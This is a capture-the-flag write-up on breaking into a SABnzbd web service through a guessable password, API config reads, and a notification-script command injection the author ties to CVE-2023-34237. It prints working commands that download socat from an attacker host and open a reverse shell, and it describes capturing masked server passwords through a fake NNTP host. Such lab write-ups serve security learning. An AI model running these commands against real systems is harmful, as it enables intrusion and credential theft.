# Website

On port `62177` there was a website that asked for credentials.



Based on the Www-Authenticate header realm parameter `SABnzbd`, the service can be found: <https://sabnzbd.org/>.

The site is protected with a weak credential. Creating a [wordlist.txt](workdir/wordlist.txt) by mutating the realm `SABnzbd` finds the password: `sabnzbd:sabnzbd`. It is quite weak and can be guessed as well.



Logging in reveals the SABnzbd website.



# Logs

Checking the logs the config can be seen, but the passwords are masked out.



Checking the [API](https://sabnzbd.org/wiki/configuration/3.7/api) directly has the same mask. The API key can be found in the settings. 



```
http://10.10.7.12:62177/api?mode=get_config&output=json&apikey=6bcff13331cb434ebc10f48c421aed29&name=%2Fusr%2Flib%2Fpython3.10%2Fsite-packages
```



# 0day

The exact version can be seen and the sourcecode is public.



Searching for `subprocess.Popen`, the `build_and_run_command` at `misc.py:1110` can be found. 

<https://github.com/sabnzbd/sabnzbd/blob/8a2b875/sabnzbd/misc.py#L1110>



This is used by the Noficiations. It can be used to run custom scripts, with (almost) arbitrary parameters.



Notice that at py files, it is checking if they have executable permission, and if they have, they will be ran with python. Otherwise it is just running it, which also requires executable permission implicitly.

The custom script directory can be changed at will.



While there is a possibility to set permissions at downloading files.



The executable permissions are stripped at `filesystem.py:614`.



Apart from this, the directories can be listed by pressing the browse button or tinkering with the API.



Pressing the `Test Notification` button can be used to test the settings.



It is located at `notifier.py:349` in the source code.



Which in turn calling it through the API with fixed `SABnzbd`, `Other`, `Messages` parameters.



With the help of [GTFOBins](https://gtfobins.github.io/#), we can hijack the executions with this 3 fixed parameters and the already available binaries on the system. It is splitting the parameter at space characters, so that character should be avoided.

The program `c98` can be used.



Testing with the `ls`, the stderr can be seen in the output.



With the help of `awk`, the spaces can be avoided. The stdout is not visible on successful run, but based on side effects (e.g. http request on our side), it can be seen it ran successfully.



This can be combined with downloading a backdoor and starting it.

```bash
c89 SABnzbd Other Messages -wrapper awk,BEGIN{system("curl\x20http://10.8.0.18:8000/socat\x20-o\x20/tmp/socat")}
c89 SABnzbd Other Messages -wrapper awk,BEGIN{system("chmod\x20777\x20/tmp/socat")}
c89 SABnzbd Other Messages -wrapper awk,BEGIN{system("/tmp/socat\x20tcp:10.8.0.18:80\x20exec:/bin/sh\x2cpty\x2cstderr\x2csetsid\x2csigint\x2csane")}
```
Turned out this is a [0day](https://github.com/sabnzbd/sabnzbd/issues/2549) ([CVE-2023-34237](https://github.com/sabnzbd/sabnzbd/security/advisories/GHSA-hhgh-xgh3-985r)) and not the intended solution

# Finding the flag

Using the reverse shell, the flag is in the config [sabnbzbd.ini](workdir/sabnbzbd.ini), in the masked parts.



# Flag
`HCSC{sh1v3r_mE_7imbers!_nowadays_y0u_c4nt_7rust_4n_3XP05ed_sab_instance}`

# Without 0day
The 0day is not required for the challenge (ofc). 

Normal functionality can be used to read passwords. The host can be changed and the SSL turned off, and using the `Test` button without saving. This initiates a request to the new host with the existing and masked data. <https://github.com/sabnzbd/sabnzbd/issues/2455#issuecomment-1427099417>



Based on the [rfc4643](https://www.rfc-editor.org/rfc/rfc4643), the NNTP server has to answer `200` then `381` codes, then the plaintext password can be acquired.



There are multiple servers, the correct one returns the flag.




